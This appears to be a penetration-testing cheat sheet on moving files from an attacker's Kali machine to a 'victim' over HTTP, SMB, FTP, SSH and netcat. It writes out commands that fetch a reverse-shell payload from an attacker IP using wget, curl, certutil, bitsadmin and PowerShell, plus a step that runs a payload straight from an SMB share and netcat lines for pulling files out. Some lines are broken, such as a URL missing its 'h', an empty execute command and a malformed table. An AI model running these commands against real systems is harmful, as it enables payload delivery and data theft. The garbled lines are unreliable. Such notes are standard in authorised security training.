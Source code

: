 

# Transfering files
## HTTP

### Method 1

#### Sender

`python3 -m http.server 8000`

#### Receiver
##### Linux
`wget http://10.10.10.79:8000/rev_shell.sh -O /tmp/rev_shell.sh`
(<file> can be just the file name to save to current location, or a full path)
`curl http://10.10.10.79:8000/rev_shell.sh -o /tmp/rev_shell.sh`

##### Windows
`curl http://10.10.10.79:8000/rev_shell.exe -o rev_shell.exe`
(we need to mention the -o (-OutFile) flag in order to save the file. If we do not mention the flag then it will only return it as an object i.e., WebResponseObject.)
`certutil -urlcache -f http://10.10.10.79:8000/rev_shell.exe rev_shell.exe`
`certutil -urlcache -split -f http://10.10.10.79:8000/rev_shell.exe rev_shell.exe`
(The -split option in certutil is used to split large files into smaller segments to perform the file transfer.)
`bitsadmin /transfer job ttp://10.10.10.79:8000/rev_shell.exe C:\Users\Public\rev_shell.exe`
(Bitsadmin is a command-line utility for handling Background Intelligent Transfer Service (BITS) tasks in Windows. It facilitates different file transfer operations, including downloading and uploading files.)
`powershell wget http://10.10.10.79:8000/rev_shell.exe -o rev_shell.exe`
`powershell -c (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.79:8000/rev_shell.exe', 'rev_shell.exe')`
instantly execute it:
``

### Method 2

#### Sender

`curl -T rev_shell.exe http://10.10.10.79:8000`

#### Receiver

python3 -m SimpleHTTPPutServer 8080

[SimpleHTTPPutServer.py](https://gist.github.com/fabiand/5628006)

```
# python3 -m SimpleHTTPPutServer 8080

from http.server import HTTPServer, SimpleHTTPRequestHandler

class PutHTTPRequestHandler(SimpleHTTPRequestHandler):
    def do_PUT(self):
        print(self.headers)
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))
        self.send_response(200)
        self.end_headers()


def run(server_class=HTTPServer, handler_class=PutHTTPRequestHandler):
    server_address = ('', 8000)
    httpd = server_class(server_address, handler_class)
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```




## FTP
Kali -> Victim

| Kali    | Linux Victim | Windows Victim cmd.exe |
| -------- | ------- |
| python3 -m http.server 8080  | wget ftp://<kali_IP>:<Port_number>/<file> (-O /path/to/dir/<file>) | ...|
| python3 -m pytfplib -w -p <Port_number>

## SMB

#### Sender
`impacket-smbserver share .`
`impacket-smbserver share $(pwd) -smb2support`
( Here we are giving the shared directory name as share, the significance of the share here is that it converts the file’s long path into a single share directory. Here we can give the full path of directory or the pwd as argument so that it takes the current directories path.)

#### Receiver

```
smbclient -L 192.168.31.141
smbclient "\\\\192.168.31.141\share"
ls
get ignite.txt
put data.txt
```

`impacket-smbclient`

`copy ignite.txt \\192.168.31.141\share\ignite.txt`

to instantly execute it: `powershell -c (\\<kali_IP\<server_name>\<payload)`

or just copy: `copy \\192.168.31.141\share\ignite.txt`

Kali -> Victim

| Kali    | Windows Victim PowerShell |
| -------- | ------- |
| impacket-smbserver <server_name> .  | to instantly execute it: powershell -c (\\<kali_IP\<server_name>\<payload) |

impacket-smbserver <server_name> .

## SSH
| Sending    | Receiving |
| ------- | ------- |
| scp <file_name> <remote_username>@<remote_IP>:/path/to/dir | scp <remote_username>@(remote_IP):/path/to/<file_name> /path/to/local_dir |

## NetCat

| Sending | Receiving |
| -------- | ------- |
| nc -w 3 [destination] <Port_number> < <file_name> | nc -l -p <Port_number> > <file_name> |
| | nc -lvnp <Port_number> |



Useful notes:
- on Linux receiving: worth using /tmp directory, as it is globally readable, writeable and executable
- upgrade your shell, if possible
- try multiple methods
